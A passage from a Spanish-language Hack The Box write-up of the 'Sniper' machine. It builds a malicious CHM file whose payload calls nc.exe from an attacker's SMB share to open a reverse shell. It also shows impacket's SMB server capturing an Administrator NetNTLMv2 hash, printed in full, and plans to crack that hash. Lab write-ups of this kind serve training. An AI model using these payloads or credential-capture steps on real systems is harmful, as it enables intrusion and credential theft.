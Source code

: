 
Y vemos que tcpdump capturó el tráfico ICMP generado por la máquina víctima 10.10.10.151. Hemos comprobado la ejecución remota de código a través de un archivo binario chm. Ahora vamos a intentar ejecutar una revershell a nuestra máquina Linux siguiendo el mismo principio anterior:

#### <span style="color: gray;">Máquina virtual Windows</span>
```
PS C:\HTB\Sniper> Out-CHM -Payload "\\10.10.14.15\share\nc.exe 10.10.14.15 443 -e powershell" -HHCPath "C:\Program Files (x86)\HTML Help Workshop\"
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\HTB\Sniper\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created c:\HTB\Sniper\doc.chm, 13,444 bytes
Compression increased file by 133 bytes.
```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
```

```
PS C:\docs> Copy-Item -Path "\\10.10.14.15\share\doc.chm" -Destination .
```
```
┌─[ot3ro@parrot]─[~/HTB/Sniper/shell]
└──╼ $sudo impacket-smbserver share -smb2support $(pwd) 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.151,49837)
[*] AUTHENTICATE_MESSAGE (\,SNIPER)
[*] User SNIPER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:SHARE)
[*] AUTHENTICATE_MESSAGE (SNIPER\Administrator,SNIPER)
[*] User SNIPER\Administrator authenticated successfully
[*] Administrator::SNIPER:aaaaaaaaaaaaaaaa:1acb8754d3f3cdd2ad7af21eb46915f6:010100000000000080c9de8485e7d901188ae75fcc0295ce000000000100100051004f007400550075004800770051000300100051004f00740055007500480077005100020010007900670044005700740056006c006e00040010007900670044005700740056006c006e000700080080c9de8485e7d901060004000200000008003000300000000000000000000000003000007480d1ed9d12e146d86930de328cc3d8fcf8ccba147fa4ecd4ab81edf9fdbad80a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000

...[SNIP]...
```
En este primer intento, el comando de revershell que usamos en el archivo doc.chm no funciona como esperábamos,  pero vemos que el smbserver captura el hash NetNTLM-v2 del usuario Administrador, entonces lo que primero podríamos hacer es intentar crackear el hash con 'hashcat' y luego  modificar el código en el archivo doc.chm para lograr conectarnos al sistema con la revershell.